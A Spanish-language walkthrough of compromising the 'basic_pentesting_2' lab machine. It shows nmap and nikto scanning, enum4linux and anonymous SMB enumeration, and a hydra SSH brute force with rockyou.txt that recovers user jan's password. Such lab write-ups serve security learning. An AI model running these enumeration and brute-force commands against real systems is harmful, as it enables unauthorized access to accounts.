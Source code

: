 # Cómo he vulnerando la máquina basic_pentesting_2 

### Primero hice un reconicimiento de la red en busca de la IP de la máquina virtual (siendo que únicamente conozco la MAC y la red padre):

sudo netdiscover

nmap -sn 10.0.0.0/19

### Obtengo la IP de la máquina a atacar:

10.0.11.24

### Seguidamente hice un nmap -sV en busqueda de puertos abiertos junto al servicio que usa y su versión:
```
ismael@ismael-VirtualBox:~$ nmap -sV 10.0.11.24
Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-19 15:22 CET
Nmap scan report for 10.0.11.24
Host is up (0.00037s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http          Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn   Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  microsoft-ds?
8009/tcp open  ajp13         Apache Jserv (Protocol v1.3)
8080/tcp open  http          Apache Tomcat 9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.92 seconds
```
### Lo primero que hice fue acceder a la página web, mostrando que está en mantenimiento, seguidamente utilicé la herramienta nikto para detectar vulnerabilidades y endpoints, dando como resultado que encontré un endpoint llamado "/development", que contiene mensajes entre los desarrolladores de la página web
```
ismael@ismael-VirtualBox:~$ nikto -h http://10.0.11.24 -C all
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.0.11.24
+ Target Hostname:    10.0.11.24
+ Target Port:        80
+ Start Time:         2025-02-19 15:34:54 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x9e 0x56a870fbc8f28 
+ The anti-clickjacking X-Frame-Options header is not present.
+ Allowed HTTP Methods: POST, OPTIONS, GET, HEAD 
+ OSVDB-3268: /development/: Directory indexing found.
+ OSVDB-3092: /development/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ 6544 items checked: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2025-02-19 15:36:11 (GMT1) (77 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
### http://10.0.11.24/development/dev.txt
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```
### http://10.0.11.24/development/j.txt
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```
### Este endpoint de development también es accesible si visualizas el código funte de la página web, encontrado un comentario de desarrolladores en el cuerpo de la página

```
<!-- Check our dev note section if you need to know what to work on. -->
```
### Seguidamente use enum4linux para hacer un análisis del servidor de Samba para buscar información relevante
```
enum4linux -a 10.0.11.24
```
### Esto fué lo que encontré:
- Lista de usuarios conocidos
- Se puede acceder al servidor de forma anónima sin usuario ni contraseñas
- El nombre del gruopo de trabajo (aunque ya se pudo ver con nmap)
- Los usuarios del sistema operativo
- Política de contraseñas
```
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none

[+] Server 10.0.11.24 allows sessions using username '', password ''

Domain Name: WORKGROUP

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)

 =============================( Password Policy Information for 10.0.11.24 )=============================

[+] Attaching to 10.0.11.24 using a NULL share

[+] Trying protocol 139/SMB...

[+] Found domain(s):

	[+] BASIC2
	[+] Builtin

[+] Password Info for Domain: BASIC2

	[+] Minimum password length: 5
	[+] Password history length: None
	[+] Maximum password age: 37 days 6 hours 21 minutes 
	[+] Password Complexity Flags: 000000

		[+] Domain Refuse Password Change: 0
		[+] Domain Password Store Cleartext: 0
		[+] Domain Password Lockout Admins: 0
		[+] Domain Password No Clear Change: 0
		[+] Domain Password No Anon Change: 0
		[+] Domain Password Complex: 0

	[+] Minimum password age: None
	[+] Reset Account Lockout Counter: 30 minutes 
	[+] Locked Account Duration: 30 minutes 
	[+] Account Lockout Threshold: None
	[+] Forced Log off Time: 37 days 6 hours 21 minutes 

```
### Ya que se puede acceder por usuario anónimo, intenté acceder, sin encontrar nada realmente valioso aparte de un fichero llamado staff.txt sin información relevante
```
smbclient //10.0.11.24/Anonymous -U ""
```
### Después probé a lanzar hydra con la lista de contraseñas "rockyou.txt" para intear acceder al usuario del sistema operativo "jan", obteniendo así su contraseña
```
hydra -l jan -P Desktop/rockyou.txt ssh://10.0.11.24 -t 64 

[22][ssh] host: 10.0.11.24   login: jan   password: armando
```
### (La demonstración de que realmente obtuve acceso a la máquina está junto a este fichero)